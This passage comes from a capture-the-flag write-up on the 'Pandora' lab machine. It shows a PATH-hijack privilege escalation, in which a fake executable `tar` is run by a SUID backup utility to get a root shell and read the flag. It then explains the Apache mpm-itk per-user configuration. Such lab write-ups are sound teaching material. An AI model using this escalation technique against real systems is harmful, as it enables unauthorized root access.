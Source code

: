 
It’s important to also make sure that `tar` is executable:

    
    
    matt@pandora:/dev/shm$ chmod +x tar
    

Now I’ll run `pandora_backup`, and when it reaches the call to `tar`, I get a
shell:

    
    
    matt@pandora:/dev/shm$ pandora_backup 
    PandoraFMS Backup Utility
    Now attempting to backup PandoraFMS client
    root@pandora:/dev/shm#
    

And read the flag:

    
    
    root@pandora:/root# cat root.txt
    57b23d0b************************
    

## Beyond Root

Big thanks the jkr and TheCyberGeek, both of whom gave me some pointers to get
started on digging in on this one.

### mpm-itk

I noted that when I got a shell exploiting Pandora FMS, any SetUID or SUID
binaries I tried to run failed to run privileged. To dig in a bit, I’ll look
at how Apache is configured.

The configuration for the Pandora site, `/etc/apache2/sites-
enabled/pandora.conf`, specified that the site runs as user matt and group
matt:

    
    
    <VirtualHost localhost:80>
      ServerAdmin admin@panda.htb
      ServerName pandora.panda.htb
      DocumentRoot /var/www/pandora
      AssignUserID matt matt
      <Directory /var/www/pandora>
        AllowOverride All
      </Directory>
      ErrorLog /var/log/apache2/error.log
      CustomLog /var/log/apache2/access.log combined
    </VirtualHost>
    

Having Apache run different virtual hosts as different users is not something
Apache does on it’s own. If you are curious why Apache would need to do this
at all, an earlier version of this box had another webserver used to get the
initial shell.
